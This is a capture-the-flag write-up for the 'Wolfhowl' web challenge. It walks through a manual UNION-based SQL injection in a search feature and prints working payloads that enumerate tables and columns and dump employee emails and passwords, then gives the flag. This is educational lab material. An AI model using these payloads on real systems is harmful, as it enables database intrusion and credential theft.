



# Wolfhowl
> Log into WolfHowl to get the flag

## About the Challenge
We are given a website and has multiple functionalities such as search feature, login and register user (But in this case, this feature has been disabled)


## How to Solve?
There is a SQL injection vulnerability in the search feature, but I couldn't use SQLMap to exploit it. Therefore, in this case, I resolved this challenge using a manual approach. First I find the table name first using this payload
```
" union select table_name,2,3,4 from information_schema.tables-- -
```



As you can see, there are many tables, but in this case, we will choose the `employee` table. Now, I would like to know the column names in the `employee` table

```
" union select concat(column_name),2,3,4 from information_schema.columns where table_name=0x656d706c6f796565-- -
```


Now, we need to extract the `email` and `password` columns, as we require the credentials to log in to the website.

```
" union select concat(email,password),2,3,4 from employee-- -
```



And then login using one of the credential that has been exposed using SQL injection payload to obtain the flag



```
flag{art_decorates_space_but_music_decorates_time}
```